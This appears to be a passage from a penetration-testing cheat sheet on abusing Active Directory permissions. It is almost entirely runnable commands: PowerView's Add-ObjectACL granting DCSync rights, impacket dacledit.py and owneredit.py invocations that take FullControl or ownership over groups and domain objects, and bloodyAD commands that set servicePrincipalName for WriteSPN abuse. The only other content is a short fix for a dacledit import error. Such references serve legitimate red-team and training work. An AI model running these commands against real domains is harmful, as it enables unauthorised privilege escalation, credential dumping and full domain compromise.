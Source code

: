 ```cmd
PS C:\> $SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
PS C:\> $Cred = New-Object System.Management.Automation.PSCredential('<DOMAIN>\<USERNAME>', $SecPassword)
PS C:\> Add-ObjectACL -PrincipalIdentity <USERNAME> -Credential $Cred -Rights DCSync
```

### WriteOwner

#### dacledit.py

> https://github.com/fortra/impacket/blob/204c5b6b73f4d44bce0243a8f345f00e308c9c20/examples/dacledit.py

```console
$ python3 dacledit.py -action 'read' -principal '<USERNAME>' -target '<GROUP>' -target-dn 'DC=<DOMAIN>,DC=<DOMAIN>' '<DOMAIN>/<USERNAME>' -k -dc-ip <RHOST> -debug
$ python3 dacledit.py -action 'read' -principal '<USERNAME>' -target '<GROUP>' -target-dn 'DC=<DOMAIN>,DC=<DOMAIN>' '<DOMAIN>/<USERNAME>:<PASSWORD>' -k -dc-ip <RHOST> -debug
$ python3 dacledit.py -action 'write' -rights 'FullControl' -principal '<USERNAME>' -target-dn 'CN=<GROUP>,CN=<GROUP>,DC=<DOMAIN>,DC=<DOMAIN>' '<DOMAIN>/<USERNAME>:<PASSWORD>'
$ python3 dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal '<USERNAME>' -target-dn 'DC=<DOMAIN>,DC=<DOMAIN>' '<DOMAIN>/<USERNAME>' -k -no-pass -dc-ip <RHOST>
$ python3 dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal '<USERNAME>' -target-dn 'OU=<GROUP>,DC=<DOMAIN>,DC=<DOMAIN>' '<DOMAIN>/<USERNAME>' -k -use-ldaps -dc-ip <RHOST>
```

##### Fixing msada_guids Error

```console
#from impacket.msada_guids import SCHEMA_OBJECTS, EXTENDED_RIGHTS
from msada_guids import SCHEMA_OBJECTS, EXTENDED_RIGHTS
```

Then put the `msada_guids.py` into the same directory as `dacledit.py`

> https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/helpers/msada_guids.py

#### owneredit.py

> https://github.com/fortra/impacket/blob/5c477e71a60e3cc434ebc0fcc374d6d108f58f41/examples/owneredit.py

```console
$ python3 owneredit.py -k '<DOMAIN>/<USERNAME>:<PASSWORD>' -dc-ip <RHOST> -action write -new-owner '<USERNAME>' -target '<GROUP>' -debug
```

### WriteSPN

```console
$ bloodyAD --host <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> set object '<USERNAME>' servicePrincipalName
$ bloodyAD --host <RHOST> --dc-ip <RHOST> -d <DOMAIN> -k set object '<USERNAME>' servicePrincipalName -v 'cifs/<USERNAME>'
```
